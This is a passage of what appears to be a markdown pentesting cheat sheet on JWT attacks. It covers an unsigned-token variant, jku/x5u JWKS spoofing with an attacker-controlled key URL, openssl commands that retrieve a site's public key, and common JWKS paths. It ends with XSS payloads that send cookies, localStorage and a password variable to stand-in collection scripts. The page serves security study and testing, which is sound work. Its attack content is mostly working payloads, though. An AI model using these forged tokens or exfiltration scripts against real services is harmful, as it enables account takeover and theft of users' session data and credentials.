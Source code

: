 - like alg:none attack, except alg heade left unchange
```
{"typ": "JWT","alg": "HS256"}.  
{"login": "ticarpi"}.  
[No signature!]
```

## JWKS Spoofing

- plays with "jku" and "x5u" header values which point to the URL of the JWKS file or x509 certificate that are used to verify the Asymmetrically-signed token
- by replacing "jku" or "x5u" URL with an attacker-controlled URL containing the Public Key, an attacker can use the paired Private Key to sign the token and let the service retrieve the malicious Public Key and verify the token 
```
{
	"typ": "JWT",
	"alg":"RS256",
	"jku":"https://ticarpi.com/jwks.json"
}.  
{"login": "ticarpi"}.  
[Signed with new Private key; Public key exported]
```

# Finding Public Keys

## Get public key from websites

```sh
openssl s_client -connect example.com:443 2>&1 < /dev/null | sed -n '/-----BEGIN/,/-----END/p' > certificatechain.pem
openssl x509 -pubkey -in certificatechain.pem -noout > pubkey.pem
```

## JWKS common locations

- `/.well-known/jwks.json`
- `/openid/connect/jwks.json`
- `/jwks.json`
- `/api/keys`
- `/api/v1/keys`

- jku - claim pointing towards the JWKS URL
- x5u - claim pointing towards the X509 certificate location

# Stealing 

## Via XSS

```javascript
document.location = "http://example.com/cookiesteal.php?c="+document.cookie;
new Image().src = "http://example.com/log.php?localStorage="+JSON.stringify(window['locatStorage']);
document.location = 'http://example.com/?password='+secretPasswordVariable;
```
